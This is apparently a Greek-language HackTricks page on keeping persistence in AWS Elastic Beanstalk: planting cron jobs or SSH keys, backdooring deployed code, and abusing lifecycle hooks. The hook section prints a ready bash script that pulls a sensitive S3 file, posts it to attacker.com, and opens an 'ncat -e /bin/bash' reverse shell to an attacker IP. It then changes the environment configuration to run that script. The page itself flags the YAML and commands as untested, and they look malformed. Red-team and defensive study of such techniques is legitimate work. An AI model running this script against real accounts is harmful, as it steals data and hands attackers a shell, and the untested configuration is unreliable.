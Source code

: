 # AWS - Elastic Beanstalk Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Elastic Beanstalk

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

### Persistence in Instance

Για να διατηρηθεί η επιμονή μέσα στον λογαριασμό AWS, θα μπορούσε να εισαχθεί κάποιο **μηχανισμός επιμονής μέσα στην instance** (cron job, ssh key...) ώστε ο επιτιθέμενος να μπορεί να έχει πρόσβαση και να κλέψει τα **credentials IAM ρόλου από την υπηρεσία μεταδεδομένων**.

### Backdoor in Version

Ένας επιτιθέμενος θα μπορούσε να προσθέσει backdoor στον κώδικα μέσα στο S3 repo ώστε να εκτελεί πάντα το backdoor του και τον αναμενόμενο κώδικα.

### New backdoored version

Αντί να αλλάξει τον κώδικα στην τρέχουσα έκδοση, ο επιτιθέμενος θα μπορούσε να αναπτύξει μια νέα backdoored έκδοση της εφαρμογής.

### Abusing Custom Resource Lifecycle Hooks

{% hint style="info" %}
TODO: Test
{% endhint %}

Το Elastic Beanstalk παρέχει lifecycle hooks που σας επιτρέπουν να εκτελείτε προσαρμοσμένα scripts κατά τη διάρκεια της προμήθειας και τερματισμού της instance. Ένας επιτιθέμενος θα μπορούσε να **ρυθμίσει ένα lifecycle hook για να εκτελεί περιοδικά ένα script που εξάγει δεδομένα ή διατηρεί πρόσβαση στον λογαριασμό AWS**.
```bash
bashCopy code# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
AWSEBAutoScalingGroup:
Metadata:
AWS::ElasticBeanstalk::Ext:
TriggerConfiguration:
triggers:
- name: stealthy-lifecycle-hook
events:
- "autoscaling:EC2_INSTANCE_LAUNCH"
- "autoscaling:EC2_INSTANCE_TERMINATE"
target:
ref: "AWS::ElasticBeanstalk::Environment"
arn:
Fn::GetAtt:
- "AWS::ElasticBeanstalk::Environment"
- "Arn"
stealthyLifecycleHook:
Type: AWS::AutoScaling::LifecycleHook
Properties:
AutoScalingGroupName:
Ref: AWSEBAutoScalingGroup
LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
NotificationTargetARN:
Ref: stealthy-lifecycle-hook
RoleARN:
Fn::GetAtt:
- AWSEBAutoScalingGroup
- Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
